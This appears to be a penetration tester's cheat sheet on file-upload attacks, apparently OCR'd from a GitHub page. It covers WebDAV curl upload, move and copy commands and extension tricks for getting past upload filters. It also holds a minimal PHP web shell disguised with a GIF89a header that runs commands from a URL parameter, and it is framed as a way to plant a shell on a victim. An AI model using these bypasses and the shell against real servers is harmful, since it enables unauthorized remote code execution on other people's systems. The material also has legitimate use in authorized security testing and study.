 # File Upload
If try to upload webshell to victim check how the exploit is done.
Check any bad characters

e.g. $XXX is taken as variable in bash, need to use \$ to escape

### WebDav  

upload file:  
curl -T '/path/to/local/file.txt' 'https://example.com/test/'  
curl --upload-file \<file> http://\<IP>/test/\<filename>  

curl -X MOVE --header 'Destination:http://example.org/new.txt' 'https://example.com/old.txt'  
curl -X COPY --header 'Destination:http://example.org/new.txt' 'https://example.com/old.txt'  

login:  
curl --user 'user:pass' 'https://example.com'  

Upload bypass:  
https://www.owasp.org/index.php/Unrestricted_File_Upload  
https://soroush.secproject.com/blog/tag/unrestricted-file-upload/  
 
IIS 6.0 or below
Asp > upload as test.txt, copy or move file as test.asp;.txt

Php > upload as pHp / phP / test.php.jpg / 

php - phtml, .php, .php3, .php4, .php5, and .inc

asp - asp, .aspx

perl - .pl, .pm, .cgi, .lib

jsp - .jsp, .jspx, .jsw, .jsv, and .jspf

Coldfusion - .cfm, .cfml, .cfc, .dbm

Add:   

GIF89a;
\<?
system($_GET['cmd']);//or you can insert your complete shell code
?>


### Options
Use options to check for upload method.

upload function. Is put allowed?
